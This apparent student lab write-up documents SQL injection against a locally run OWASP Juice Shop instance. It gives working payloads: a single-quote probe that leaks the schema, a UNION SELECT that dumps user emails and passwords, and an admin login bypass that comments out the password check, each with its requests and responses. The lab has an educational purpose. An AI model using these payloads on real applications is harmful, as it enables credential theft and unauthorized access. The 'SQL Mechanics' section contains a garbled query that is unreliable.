





SQL Injection in OWASP Juice Shop

Course: Cybersecurity Lab – SQL Injection
Academic Year: 2025/2026
Student: Marwan Salman
Target application: OWASP Juice Shop (Docker image bkimminich/juice-shop)

1. Lab Goal

The goal is to exploit two SQL Injection vulnerabilities:

- Authentication Bypass: Login as admin without password using discovered credentials
- Data Extraction: Dump Users table via Products search UNION injection

2. Environment Setup

docker run --rm -p 3000:3000 bkimminich/juice-shop
Accessed http://localhost:3000
Created account: msalman@yahoo.com / 12345
Launched Burp Suite Community Edition v2025.x

3. Step-by-Step Exploitation (Burp Repeater)

Step 1-2: Login Baseline
POST /api/Users/auth
{"email":"msalman@yahoo.com","password":"12345"} → 200 OK + JWT token

Step 3-4: Login Error Schema Leak

{"email":"'","password":"12345"} → 500 Error
Discovery: Users table exposed - columns: email, password.

Step 5-6: Products Baseline

GET /rest/products/search?q=apple → 200 OK
Discovery: JSON array with 9 columns per product: id, name, description, price, image, etc.

Step 7-9: Products Query Leak

q=-- → SQL Error exposes raw query:
SELECT \* FROM Products
WHERE ((name LIKE '%--%' OR description LIKE '%--%') AND deletedAt IS NULL)

Step 10: UNION Attack Success

q=invalid')) UNION SELECT 1,email,3,4,password,6,7,8,9 FROM Users--
Result: Users dumped in Products JSON:
{"name":"admin@juice-sh.op", "deluxePrice":"XXX", "price":null}
Extracted: admin@juice-sh.op seem like admin username

Step 11-13: Admin Auth Bypass

POST /api/Users/auth
{"email":"admin@juice-sh.op'--","password":"anything"} → 200 OK + Admin JWT

1. SQL Mechanics

Auth Bypass Query:
SELECT _ FROM Users WHERE email='admin@juice-sh.op'--' AND password='anything'
↓
SELECT _ FROM Users WHERE email='admin@juice-sh.op' [password commented out]

UNION Extraction:
SELECT \* FROM Products WHERE name LIKE '%invalid')) UNION SELECT \* FROM Users WHERE email,password,...%'
↓
Products rows + Users rows (9 columns: 2 real + 7 fillers)

1. Attack Classification

| Type        | Endpoint              | Goal            | Key Payload                    |
| ----------- | --------------------- | --------------- | ------------------------------ |
| Error Recon | /api/Users/auth       | Schema leak     | '                              |
| Data Exfil  | /rest/products/search | Credential dump | UNION SELECT email,password... |
| Auth Bypass | /api/Users/auth       | Admin access    | admin@juice-sh.op'--           |

1. Conclusion

Exploited SQLi chain: login error → users schema → products UNION (9 cols) → admin discovery → targeted bypass. Burp Repeater workflow proved both vulnerabilities. Demonstrates critical need for parameterization and error handling in production apps.
